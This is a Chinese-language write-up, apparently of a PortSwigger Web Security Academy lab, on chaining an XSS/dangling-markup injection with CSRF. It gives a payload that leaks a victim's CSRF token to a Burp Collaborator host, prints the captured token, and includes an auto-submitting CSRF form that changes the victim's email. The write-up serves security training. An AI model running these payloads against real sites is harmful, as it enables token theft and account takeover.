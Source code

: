 这里看了一下答案，发现XSS在更改email的地方。

* 第一步是窃取token。

    尝试把email的后面的东西全部当成参数传给burp collaborator。

    ```
    https://ac581f6e1e7014e080cd124700bf006a.web-security-academy.net/my-account?email="><table background='https://u2xeh955nmlwl647w8al6ag3xu3kr9.burpcollaborator.net?
    ```

    这里不能用img标签然后通过src传递，传不出去。

    ![28.1](xss-burp.assets/28.1.png)

    ![28.2](xss-burp.assets/28.2.png)

    这里将特殊符号url编码。

    ```html
    <script>
    location = "https://ac581f6e1e7014e080cd124700bf006a.web-security-academy.net/my-account?email=%22><table background='https://u2xeh955nmlwl647w8al6ag3xu3kr9.burpcollaborator.net?"
    </script>
    ```

    发送给受害者，得到了token。

    ```
    ji8qjeLHdqSPStBfEhG9CBKHN8Dgpmsm
    ```

* 用窃取的token来更改email。

    ```html
    <html>
      <!-- CSRF PoC - generated by Burp Suite Professional -->
      <body>
      <script>history.pushState('', '', '/')</script>
        <form action="https://ac581f6e1e7014e080cd124700bf006a.web-security-academy.net/my-account/change-email" method="POST">
          <input type="hidden" name="email" value="1&#64;a" />
          <input type="hidden" name="csrf" value="ji8qjeLHdqSPStBfEhG9CBKHN8Dgpmsm" />
          <input type="submit" value="Submit request" />
        </form>
        <script>
          document.forms[0].submit();
        </script>
      </body>
    </html>
    ```
